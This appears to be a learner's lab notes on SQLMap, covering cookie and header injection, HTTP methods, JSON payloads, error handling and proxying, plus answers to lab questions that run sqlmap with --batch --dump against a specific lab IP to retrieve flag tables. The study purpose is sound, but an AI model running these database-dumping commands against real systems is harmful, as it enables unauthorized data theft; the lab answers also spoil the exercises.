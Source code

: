 ```
```sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'```

```sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'```

Can apply --host, --referer -A/--user-agent which are used to specify the same HTTP headers' values.

--random-agent randomly selects a User-agent header value from a database to use. Useful as sqlmaps default user-agent (User-agent: sqlmap/1.4.9.12#dev (http://sqlmap.org)) is often dropped from HTTP traffic due to secruity.

We can also specify alternative HTTP method other than get, post using the --method 

```sqlmap -u www.target.com --data='id=1' --method PUT```

### Custom request - testing headers.

By default SQLMap targets only HTTP parameters. It is possible to test headers for SQLi vulns 

This is done by putting the custom injection mark (```*```) in a header's value (```--cookie="id=*"```)

### Custom HTTP Requests

SQLMap also supports JSON and XML formatted HTTP POST requests. 

Often the --data arg will work but in the case of long post requests put it in a file and use -r

### Questions


Test question sqlmap -u  http://167.172.52.221:31935/case1.php?id=1 --batch --dump (get request)

What's the contents of table flag2? (Case #2) Do a post request

command
```sqlmap -u  http://167.172.52.221:31935/case2.php --data "id=1" --batch --dump ``` notice that the id is the data section and the url doesn't have the get parameter in it


 What's the contents of table flag3? (Case #3) Find an injection vuln in a cookie

command

```sqlmap -u  http://167.172.52.221:31935/case3.php --cookie "id=1*" --batch --dump```

What's the contents of table flag4? (Case #4) Find an injection vuln in a json

```sqlmap -u  http://167.172.52.221:31935/case4.php --data '{"id": 1}' --batch --dump```

## Handling SQLMap Errors

To display any errors use ```--parse-errors``` to output any errors

To store the traffic (for inspection for later usage) use ```-t``` and file path to store the data

Use ```-v``` for more verbose output (```-v 6``` prints everything out to the console)

use ```--proxy``` to pass everything through burp.

## Attack tuning

Most of the time sqlmap will work right out of the box however sometimes it will need fine-tuning.

```